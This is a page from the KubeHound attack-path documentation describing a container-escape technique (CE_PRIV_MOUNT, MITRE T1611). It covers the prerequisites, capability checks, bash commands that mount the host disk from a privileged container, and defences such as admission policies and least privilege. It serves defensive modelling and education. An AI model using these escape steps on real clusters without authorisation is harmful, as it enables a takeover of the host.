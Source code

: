 ```yaml
---
title: CE_PRIV_MOUNT
---
```


<!--
id: CE_PRIV_MOUNT
name: "Container escape: Mount host filesystem"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# CE_PRIV_MOUNT

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Mount the host disk and gain access to the host via arbitrary filesystem write

## Details

A container running with `privileged: true` disables almost all the container isolation mechanisms. As such an attacker can trivially gain access to the host's resources, including the disk, to escape the container. In this attack, we simply list the disks on the host machine, mount them into the container and exploit a privileged file write to gain execution on the host.

## Prerequisites

Execution within a privileged container process.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setuptest-cluster/attacks/CE_PRIV_MOUNT.yaml).

## Checks

From within a running container, determine whether it is running with as privileged by examining capabilities:

```bash
# Check the current process' capabilities
cat /proc/self/status | grep CapEff
# CapEff: 000001ffffffffff

# Decode the capabilities (on current box or offline) and check for CAP_SYS_ADMIN
# NOTE: can install capsh via apt-get update && apt-get install libcap2-bin
capsh --decode=000001ffffffffff | grep cap_sys_admin
```

Check that the host disks are visible to our container process:

```bash
apt update && apt install fdisk
fdisk -l 
# -> /dev/vda1
```

## Exploitation

Mount the disks into the container

```bash
mkdir -p /mnt/hostfs
mount /dev/vda1 /mnt/hostfs
ls -lah /mnt/hostfs/
```

With the disk now writeable from the container, follow the steps in [EXPLOIT_HOST_WRITE](./EXPLOIT_HOST_WRITE.md#Exploitation).

## Defences

### Monitoring

+ Monitor `mount` events originating from containers
+ See [EXPLOIT_HOST_WRITE](./EXPLOIT_HOST_WRITE.md#Defences)

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with `privileged` enabled.

### Least Privilege

Avoid running containers as the `root` user. Enforce running as an unprivileged user account using the `runAsNonRoot` setting inside `securityContext` (or explicitly setting `runAsUser` to an unprivileged user). Additionally, ensure that `allowPrivilegeEscalation: false` is set in `securityContext` to prevent a container running as an unprivileged user from being able to escalate to running as the `root` user.

## Calculation

+ [EscapePrivMount](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/escape_priv_mount.go)

## References:

+ [HackTricks Docker Breakout](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)

